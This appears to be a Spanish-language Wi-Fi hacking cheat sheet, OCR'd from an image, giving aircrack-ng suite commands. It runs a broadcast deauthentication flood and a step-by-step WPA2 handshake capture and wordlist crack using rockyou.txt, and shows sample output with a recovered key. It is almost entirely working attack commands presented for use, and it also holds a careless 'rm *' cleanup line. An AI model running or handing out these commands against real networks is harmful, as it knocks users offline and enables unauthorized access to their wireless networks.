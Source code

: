 ````sh
# ó al BSSID :
aireplay-ng --deauth 10000 -a 30:45:96:D7:F2:3E -c FF:FF:FF:FF:FF:FF wlan0mon

# Opcion 2: Sin ninguna MAC = Broadcast automático:
aireplay-ng --deauth 10000 -a 30:45:96:D7:F2:3E wlan0mon
````

---

### WPA2 Brute Force: Full Attack

````sh
# Proceso completo de ataque y Brute Force ASAP
# https://esgeeks.com/como-usar-aircrack-ng/

# 1. Monitoreo sencillo para identificar objetivo (kill, monitor on, dump live):
airmon-ng check kill && airmon-ng start wlan0 && airodump-ng wlan0

# 2. Anotar `BSSID` y `Channel` del objetivo, por ejemplo: 

    # BSSID   = 30:45:96:D7:F2:3E
    # Channel = 6
    # EESID   = Fz3r0_Air_PWN

# 3. Ejecutar el dump completamente dirigido al AP target (Channel + BSSID + Write Output)
airodump-ng -c 6 --bssid 30:45:96:D7:F2:3E --write Fz3r0_WiFi_Log wlan0

# 4. (Opcional) Lanzar `Deauthentication Attack` para crear `handshakes` (o esperar a que los clientes haga autenticación real...)

    # -a = Es la dirección MAC de la red WiFi objetivo.
    # -e = Es el ESSID de la red objetivo, es decir, su nombre.
aireplay-ng -0 10 -a 30:45:96:D7:F2:3E -e Fz3r0_Air_PWN wlan0

# 5. Detener el ataque, esperar a que se autentiquen y revisar si llegó algún `handshake` al arhcivo `Fz3r0_WiFi_Log-01.cap`, lanzar comando para desencriptar:
aircrack-ng Fz3r0_WiFi_Log-01.cap -w /usr/share/wordlists/rockyou.txt

# 666. LISTO!!! 

### NOTA: para borrar todos los archivos generados: rm *

   # Ejemplo:

#                               Aircrack-ng 1.6 
#
#      [00:00:01] 6253/10303727 keys tested (8332.39 k/s) 
#
#      Time left: 20 minutes, 35 seconds                          0.06%
#
#                          KEY FOUND! [ password10 ]
#
#
#      Master Key     : FD FB 3C D0 14 FB E7 23 DA 2F 9C 90 1F 3F 5F 4E 
#                       FB 32 E9 46 BD FD 5F 6E F9 06 24 53 CA 76 0C CC 
#
#      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
#                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
#                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
#                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
#
#      EAPOL HMAC     : BE CA 45 62 3E DF B5 A3 AC 3D EB 3D DA 7C 94 98 
````
